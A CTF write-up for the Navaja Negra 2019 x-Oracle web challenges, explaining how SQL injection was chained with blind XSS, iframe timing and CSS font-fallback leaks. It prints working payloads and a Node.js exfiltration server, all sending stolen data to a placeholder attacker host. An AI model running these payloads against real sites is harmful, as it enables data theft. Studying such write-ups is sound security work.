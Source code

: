 # Writeup x-Oracle Challenges (Navaja Negra 2019 CTF)

> __Preface:__ Navaja Negra is a local security conference celebrated every year in Albacete (Spain), and traditionally we have been organizing small CTFs for it. These tasks are a series of web challenges for this year.

The challenges are based on a vanilla SQL injection that must be exploited by a bot with admin role. The [source code](https://gist.github.com/cgvwzq/c78aa5fc228225a2779745f2705eeab5) is provided, so it is easy to spot the SQLi.

Complete source code: https://github.com/cgvwzq/ctf_tasks/tree/master/nn9ed

## x-Oracle-v0

The first challenge can be solved by chaining the SQL injection with a Blind XSS. The CSP configuration allows `unsafe-inline` and `img-src *`, so it is easy to force the bot to exploit the SQL injection and exfiltrate the flag to an external server:

```html
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

Easy Peasy, here's your flag: `nn9ed{y0u_b3tt3r_warmUp_your_w3b_j4king_sk1lls}`

## x-Oracle-v1

This challenges includes a patch for the previous bug:

```
< res.setHeader('Content-Security-Policy', "default-src 'self' 'unsafe-inline'; img-src *; style-src *; font-src *");
---
> res.setHeader('Content-Security-Policy', "default-src 'self'; img-src *; style-src * 'unsafe-inline'; font-src *");
```

With this stricter CSP we cannot inject <script> tags or run JavaScript, so things get a bit more complicated. However, we can still try to exploit a time-based SQLi.

While there are many ways to solve this challenge (any solution for x-Oracle-v2 would also work here), our intended solution exploited a cross-site timing attack.

First, we need to redirect the bot to a website controlled by us ---easily done with <meta http-equiv=refresh>--- because this action is not affected by the CSP policy. From there we can use any method for measuring the loading time of a cross-origin resource.

In our case we used iframes and the onload event to extract the flag character by character. Finally we simply exfiltrate the flag via an <img src> request.

```html
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
	x = escape(x.replace(/_/g, '\\_'));
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
	x = escape(x);
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
	let h = performance.now();
	f.location = (end ? gen2(word) : gen(word));
	await new Promise(r => {
		g.onload = r; 
	});
	let diff = performance.now() - h;
	return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
	let prefix = 'nn9ed{';
	while (true) {
		let i = 0;
		for (i;i<alphabet.length;i++) {
			let c = alphabet[i];
			let t =  await query(prefix+c); // Check what chars returns TRUE or FALSE
			console.log(prefix, c, t);
			if (t) {
				console.log('FOUND!')
				prefix += c;
				break;
			}
		}
		if (i==alphabet.length) {
			console.log('missing chars');
			break;
		}
		let t = await query(prefix+'}', true);
		if (t) {
			prefix += '}';
			break;
		}
	}
	new Image().src = 'http://PLAYER_SERVER/?' + prefix; //Exfiltrate the flag
	console.log(prefix);
}

run();
</script>
```

The flag: `nn9ed{t1ming_att4cks_ar3_th3_best_att4cks}`

## x-Oracle-v2

Now cross-site timing attacks are mitigated by SameSite cookies (this was supposed to be a huge hint for the bug in v1):

```
< cookie: { secure: false }
---
> cookie: { secure: false, sameSite: 'strict' }
```

Again, CSP only allows imgs, styles and fonts. Fonts? Yep! Fonts!

Unfortunately, SameSite cookies mean that we can not exploit cross-site timing attacks anymore ---the admin's cookie will not be send on the request.

Instead, our intended solution uses "fonts"! This summer we spend some time discussing about how to measure time purely in CSS, and after some reading, we found out that CSS font urls have a fallback mechanism that could be abused for that. This approach has several limitations, but it seemed fun enough for a CTF task :)

Specifically we are interested in `font-display`, according to the [spec](https://drafts.csswg.org/css-fonts-4/#font-display-desc):

>...[font-display] determines how a font face is displayed, based on whether and when it is downloaded and ready to use"

It supports 5 options:

* `auto`: The display policy is user-agent-defined (most cases same as `block`)
* `block`: Gives the font face a short __block period__ (3s is recommended in most cases) and an infinite __swap period__.
* `swap`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and an infinite __swap period__.
* `fallback`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and a short __swap period__ (3s is recommended in most cases).
* `optional`: Gives the font face an extremely small __block period__ (100ms or less is recommended in most cases) and a 0s __swap period__.

And from the moment that the user-agent tries to download a font, the font-face starts a timer that will advance through 3 periods:

* __Block period__: if the font face is not loaded, any element attempting to use it must instead render with an invisible fallback font face. If the font face successfully loads during the block period, the font face is then used normally.
* __Swap period__: if the font face is not loaded, any element attempting to use it must instead render with a fallback font face. If the font face successfully loads during the swap period, the font face is then used normally.
* __Failure period__: if the font face is not yet loaded when this period starts, it’s marked as a failed load, causing normal font fallback. Otherwise, the font face is used normally.

In practice, we can expect the following scenario:

```css
@font-face {
    font-family: Leak;
    src: url(http://url-a/), url(http://url-b);
    font-display: optional;
}
div.leak {
    font-family: Leak;
}
```

Our font will try to load the first resource, since we are using `font-display: optional`, the block period has only 100ms to load the resource. If the requests fails during this time, the fallback font will be requested; otherwise, it will skip the swap period, mark the load as failed, and fallback to the normal font.

This means that if the first request takes too long to resolve, the second request is never done. Or in other words, we have our oracle in pure CSS!

From this point, is relatively easy to implement a tree search based on the time-based SQLi:

```css
@font-face {
    font-family: Leak;
    src:url(http://x-oracle-v2.nn9ed.ka0labs.org/admin/search/x%27union%20select%20if%28flag%20regexp%20%27nn9ed%7B%5B%5C_abcdel%5D.*%7D%27,0,sleep%280.1%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), url(http://PLAYER_SERVER/leak?pre=nn9ed%7B&range=%5C_abcdel);
    font-display: optional;
    unicode-range: U+005f,U+0061,U+0062,U+0063,U+0064,U+0065,U+006c;
}

@font-face {
    font-family: Leak;
    src:url(http://x-oracle-v2.nn9ed.ka0labs.org/admin/search/x%27union%20select%20if%28flag%20regexp%20%27nn9ed%7B%5Bfghijs%5D.*%7D%27,0,sleep%280.1%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), url(http://PLAYER_SERVER/leak?pre=nn9ed%7B&range=fghijs);
    font-display: optional;
    unicode-range: U+0066,U+0067,U+0068,U+0069,U+006a,U+0073;
}
div { font-family: Leak; }
```
When the admin visits a page with the following content, it will ping back with the subset that contains the first character:

```html
<div>_abcdefghijklmnopqrstuvwxyz</div>
<style>@import url(http://PLAYER_SERVER/)</style>
```

One drawback of this injection is that it is case insensitive, so we might need to refine it, but for illustration purposes is enough.

The following PoC uses recursive CSS import (for more details see [this](https://github.com/cgvwzq/css-scrollbar-attack/), [this](https://github.com/cgvwzq/css-scrollbar-attack/), or [this](https://medium.com/@d0nut/better-exfiltration-via-html-injection-31c72a2dae8b)) with the previous font fallback trick, to extract the flag in ~5s with a single visit of the admin:

```js
const http = require('http');
const url = require('url');
const port = 80;

const TARGET = "http://x-oraclev-2.nn9ed.ka0labs.org";
const HOSTNAME = `http://PLAYER_SERVER:${port}`;

const MAX_CON = 2;

Array.prototype.chunks = function(n) {
	let s = Math.floor(this.length / n);
    let ret = [], i;
	if (this.length <= n) {
		return this.map(e=>[e]);
	}
	for (i=0; i<s*n; i += s) {
		ret.push(this.slice(i,i+s));
    }
	for (i; i<this.length; i++) {
		ret[i%ret.length].push(this[i]);
    }
    return ret;
}

let nextResponse, pre, ranges, dic, c = 1;

const requestHandler = async (request, response) => {
    let req = url.parse(request.url, url);
    log('\treq: %s', request.url);
	response.setHeader('Access-Control-Allow-Origin','*');
    switch (req.pathname) {
        case "/css":
			pre = decodeURIComponent(req.query.pre);
			dic = decodeURIComponent(req.query.dic).split('');
			ranges = dic.chunks(MAX_CON);
			genResponse(response, pre, ranges);
            break;
		case "/next":
			console.log('delay next response');
			nextResponse = response;
			break;
		case "/leak":
			console.log(req.query.pre, req.query.range);
			if (parseInt(req.query.c) < c) {
				response.end();
				break;
			}
			if (req.query.range.length == 1) {
				pre += decodeURIComponent(req.query.range);
				ranges = dic.chunks(MAX_CON);
				c += 1;
				console.log('got char!');
			} else {
				ranges = decodeURIComponent(req.query.range).split('').chunks(MAX_CON);
			}
			if (nextResponse) {
				genResponse(nextResponse, pre, ranges);
			} else {
				console.log('shit...');
			}
            response.end();
			break;
        default:
            response.end();
    }
}

function cssEscape(i) {
	return escape(i);
}

const genResponse = (response, pre, ranges) => {
	let css = '@import url(' + HOSTNAME + '/next?' + Math.random() + ');\n\n' +
	ranges.map(e => ('@font-face { font-family: Leak;\n' +
		'src:url(' + TARGET + '/admin/search/x%27union%20select%20if%28cast%28flag%20as%20binary%29%20regexp%20%27' + cssEscape(pre) + '%5B' + cssEscape(e.join('')) + '%5D.*%7D%27,0,sleep%280.2%29%29%20from%20challenge%20where%20flag%20like%27nn9ed%7B%25%27%23), ' +
		'url(' + HOSTNAME + '/leak?pre=' + cssEscape(pre) + '&range=' + cssEscape(e.join('')) + '&c=' + c + '); font-display: optional; unicode-range: ' + e.map(x => ('U+' + ('0000'+x.charCodeAt(0).toString(16)).substr(-4))).join(','))+';}').join('\n') +
		'\n' + 'div' + ' { font-family: Leak; }';
    response.writeHead(200, { 'Content-Type': 'text/css'});
    response.write(css);
    response.end();

}

const server = http.createServer(requestHandler)

server.listen(port, (err) => {
    if (err) {
        return console.log('[-] Error: something bad happened', err);
    }
    console.log('[+] Server is listening on %d', port);
})

function log() {
    console.log.apply(console, arguments);
}
```

The code is a bit unestable ---the browsers send some requests whose reason I still need to figure out---, but if we ignore them (thanks to the `c` param), in the worst case a few retries give us the flag (in lower case): `nn9ed{css_fallback_rulez}`.

After some manual adjustment: `nn9ed{cSS_fallback_rulez}`.

Interestingly, we can do better than a binary search by splitting the alphabet in more fonts. However, this number is limited by the browser's maximum number of connections per hosts (6 in most modern browsers). Using more than that will make the browser serialize fruther requests and the timing measurements will become useless.

## Unexpected solutions

One of the best perks of organizing a CTF is to see other people resolving your tasks in a different way than you intended. And this occasion wasn't an exception :)

We were aware that some sources of contention or serialization during parsing or resource loading could be used to solve this tasks. For a 2006 example, see Jeremiah Grossman's [non-JS port scanner](https://blog.jeremiahgrossman.com/2006/11/browser-port-scanning-without.html). Only 13 years ago... Feeling old? T_T

But nevertheless we got a few very interesting submissions. All of them solving both v1 and v2 at once.

### Font `unicode-range` + Alternative text

The first solution comes from the hand of [@terjanq](https://twitter.com/terjanq), who essentially destroyed the CTF solving all the tasks in just a few hours. Kudos!

He leverages a known `unicode-range` [trick](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html) in a very smart way, to detect whether the alternate text of an `object` element has been rendered (on error) or not (on load). With that he is able to exploit an error based SQLi instead of a time-based. For more details see his [PoC](https://gist.github.com/terjanq/33bbb8828839994c848c3b76c1ac67b1).

Similarly, [Borja Martinez](https://twitter.com/Qm9yamFN) ---who heroically managed to solve the challenge at 6.20 AM--- used the `<img alt="A" src="http://victim/">` instead of `<object data="http://victim/">A</object>`.

In this case, the alternative text of the image is always rendered, but the browser only does that once the resource is resolved. By requesting a controlled resource before (time_start), and calculating the difference with the font load request (time_end), he obtains the delay of the loaded resource w/o JavaScript.

### `<img>` stalling `<meta http-equiv=refresh>`
The second person to solve the challenge was [Luan Herrera](https://twitter.com/lbherrera_), who used the fact that `<meta http-equiv=refresh>` will only take place when the previous images have finished loading.

Like Borja, he first requests a controlled resource (time_start), sets the stalling `<img>` tag, and the `<meta>` refresh tag pointing to his server to obtain the time delay.

Great work.

## Thanks for reading!
by [@cgvwzq](https://twitter.com/cgvwzq) and [@TheXC3LL](https://twitter.com/TheXC3LL)

